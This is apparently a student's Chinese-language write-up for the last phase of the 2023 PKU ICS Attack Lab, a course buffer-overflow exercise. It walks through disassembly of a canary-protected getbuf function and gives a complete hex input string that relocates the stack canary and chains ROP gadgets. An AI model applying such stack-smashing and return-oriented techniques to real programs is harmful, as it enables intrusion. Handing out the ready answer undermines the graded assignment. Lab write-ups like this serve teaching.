 ### 这个是我在做2023年PKU ICS attacklab的笔记
### 让有缘人可以有所参考

直接看最后一题吧，别的大家都应该可以找到题解。
我的思路来自树洞，这条一年前的树洞让我豁然开朗。
![Alt text](6d9064a932972cc1829c0a8229b7806.jpg)
所以我们简单的画一下图，可以看得到其实应该是这样的：
![Alt text](Untitled-2023-10-17-1544.png)
然后注意到```starget.s```中的```getbuf_withcanary```汇编代码
```assembly
40228d:	8b 85 70 ff ff ff    	mov    -0x90(%rbp),%eax
402293:	48 63 d0             	movslq %eax,%rdx
402296:	48 8d 85 70 fe ff ff 	lea    -0x190(%rbp),%rax
40229d:	48 8d 88 08 01 00 00 	lea    0x108(%rax),%rcx
4022a4:	48 8d 85 70 fe ff ff 	lea    -0x190(%rbp),%rax
4022ab:	48 89 ce             	mov    %rcx,%rsi
4022ae:	48 89 c7             	mov    %rax,%rdi
4022b1:	e8 ba f0 ff ff       	call   401370 <memcpy@plt>
4022b6:	8b 85 74 ff ff ff    	mov    -0x8c(%rbp),%eax
4022bc:	48 63 d0             	movslq %eax,%rdx
4022bf:	48 8d 85 70 fe ff ff 	lea    -0x190(%rbp),%rax
4022c6:	48 8d 8d 70 fe ff ff 	lea    -0x190(%rbp),%rcx
4022cd:	48 81 c1 08 01 00 00 	add    $0x108,%rcx
4022d4:	48 89 c6             	mov    %rax,%rsi
4022d7:	48 89 cf             	mov    %rcx,%rdi
4022da:	e8 91 f0 ff ff       	call   401370 <memcpy@plt>
```
这里面我们可以看到有两次```memcpy```，所以基本的思想就是把```canary```值移下来，再移回去。
事实上，根据寄存器传递参数的顺序和```memcpy```的定义知道：
第一次是这样的：```memcpy(dest=%rsp, src=%rsp+0x108, len=(%rsp+0x100))```
第二次是这样的：```memcpy(dest=%rsp+0x108, src=%rsp, len=(%rsp+0x104))```
第一次，我们可以将```%rsp+0x108 ~ %rsp+0x198-1```的值移下来，这个时候的金丝雀值是放在了```%rsp+0x80```指向的地方，同时```%rsp+0x88```指向的地方应该是在上移后成为原先保存寄存器```%rbp```的地方。所以我们的注入的代码应该是从```%rsp+0x90```开始，同时最高只能到```%rsp+0x100-1```。（这里是16进制，所以这两个地址之间实际上差了```0x70```大小，也就是```112```字节，所以是不用担心的。）

然后注意到在```starget.s```里，```start_farm```等的地址和```rtarget.s```里面都是一样的，所以我们可以直接放心大胆的把```phase 5```里的东西填充到从```%rsp+0x90```开始。

最后我们输入的字符串应该就是这样的：
```plain-text
30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
50 24 40 00 00 00 00 00
40 23 40 00 00 00 00 00
2a 23 40 00 00 00 00 00
48 00 00 00 00 00 00 00
06 24 40 00 00 00 00 00
86 24 40 00 00 00 00 00
30 24 40 00 00 00 00 00
62 23 40 00 00 00 00 00
40 23 40 00 00 00 00 00
3d 21 40 00 00 00 00 00
37 61 65 61 61 62 39 33
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
90 00 00 00 00 01 00 00 /* 这里输入的是那两个长度，好像大个8字节小个8字节不太有影响*/
```

最后，如果你觉得对你有帮助，就快点去看小熊猫喔！！！！
![Alt text](fa59c23df49fd7339114df21271f447.jpg)